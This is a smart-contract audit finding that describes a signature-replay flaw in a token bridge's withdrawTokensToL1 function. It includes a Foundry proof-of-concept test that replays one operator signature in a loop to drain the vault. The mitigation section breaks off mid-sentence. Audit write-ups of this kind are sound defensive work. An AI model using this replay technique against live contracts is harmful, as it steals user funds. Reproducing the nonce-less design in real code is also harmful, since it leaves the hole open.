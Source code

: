 
### [H-3] Lack of replay protection in `withdrawTokensToL1` allows withdrawals by signature to be replayed

**Description:** Users who want to withdraw tokens from the bridge can call the `sendToL1` function, or the wrapper `withdrawTokensToL1` function. These functions require the caller to send along some withdrawal data signed by one of the approved bridge operators.

However, the signatures do not include any kind of replay-protection mechanisn (e.g., nonces). Therefore, valid signatures from any bridge operator can be reused by any attacker to continue executing withdrawals until the vault is completely drained.


**Proof of Concept:** Include the following test into `L1TokenBridge.t.sol` file:

```javascript

function testSignatureReplay() public {
        address attacker = makeAddr("attacker");
        address attackerInL2 = makeAddr("attackerInL2");

        // assume the vaults already holds some tokens
        uint256 vaultInitialBalance = 1000e18;
        uint256 attackerInitialBalance = 100e18;

        deal(address(token),address(vault),vaultInitialBalance);
        deal(address(token),address(attacker),attackerInitialBalance);

        // An attacker deposits tokens to the L2
        vm.startPrank(attacker);
        token.approve(address(tokenBridge),type(uint256).max);
        tokenBridge.depositTokensToL2(attacker, attackerInL2, attackerInitialBalance);

        // Signer is going to sign the withdrawal
        bytes memory message = abi.encode(address(token),0,
                               abi.encodeCall(IERC20.transferFrom,(address(vault),  attacker ,attackerInitialBalance)));

        (uint8 v, bytes32 r,bytes32 s) = vm.sign(operator.key,MessageHashUtils.toEthSignedMessageHash(keccak256(message)));

        while(token.balanceOf(address(vault)) > 0) {
            tokenBridge.withdrawTokensToL1(attacker, attackerInitialBalance, v, r, s);
        }

        assertEq(token.balanceOf(address(attacker)), attackerInitialBalance + vaultInitialBalance);
        assertEq(token.balanceOf(address(vault)), 0);
        
    }

```

**Recommended Mitigation:** To prevent signature replay attacks, consider redesigning the withdrawal mechanism so that it includes replay protection.Moreover, we could:
